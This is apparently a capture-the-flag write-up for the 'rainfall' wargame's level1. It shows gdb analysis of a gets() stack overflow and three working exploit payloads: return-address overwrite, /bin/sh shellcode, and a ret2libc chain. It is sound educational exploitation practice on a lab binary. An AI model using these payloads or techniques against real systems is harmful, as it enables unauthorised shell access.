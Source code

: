 # level1

The binary presents doesn't take any arguments. It reads from `stdin` and do nothing if the input is less than 76 characters. And segfaults if the input is more  or equal than 76 characters.


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level1/source.c) 

> `run` pops a shell but it is never called

## Goal  


Overflow the buffer to overwrite the __return address__ of the function `main` with the address of the function `run`. It will make the `next instruction pointer (eip)` to point to `run`.

```bash 
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

`run` is at `0x08048444` __which is `0x44\x84\x04\x08` in little endian__. [see here](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)




```console
level1@RainFall:~$ gdb level1 
(gdb) b *main+16
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) disas
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
=> 0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x $eax
0xbffff6f0:	0x08048400
(gdb) p  0xbffff73c - 0xbffff6f0
$1 = 76
```

`eax` of `gets` will write at `0xbffff6f0`. The `eip` is at `0xbffff73c`. So we want to overwrite `eip` and write address of `run` in, by overflowing `eax`.

> 76 bytes between `eax` and `eip`

> Illegal instruction if the input is equal to 76 characters because EOL is not an instruction.

## Exploit with `run`

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat)  | ./level1
```


Or

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') > /tmp/payload
cat /tmp/payload - | ./level1
```

> `cat` and `-` are used to keep the stdin open


## Exploit with shellcode

Write a shellcode at the start of the buffer. and overwrite the return address with the address of the buffer.

The shellcode are instructions that will pop a shell: [found here](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)

shellcode size = 23 bytes

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```
> `\xf0\xf6\xff\xbf` is the address of the buffer.


## Exploit with ret2libc

Return to libc use the dependencies linked to the binary. and and use it  to pop a shell. [see here](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

```bash
(python -c 'print "a" * 76 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat ) | /home/user/level1/level1
```


First: address of system: `(gdb) p system`  
Second: address of exit: `(gdb) p exit`  
Third: address of "/bin/sh": `find &system,+9999999,"/bin/sh"`

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

> - Adresses are found in the main frame  
> - Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)

https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it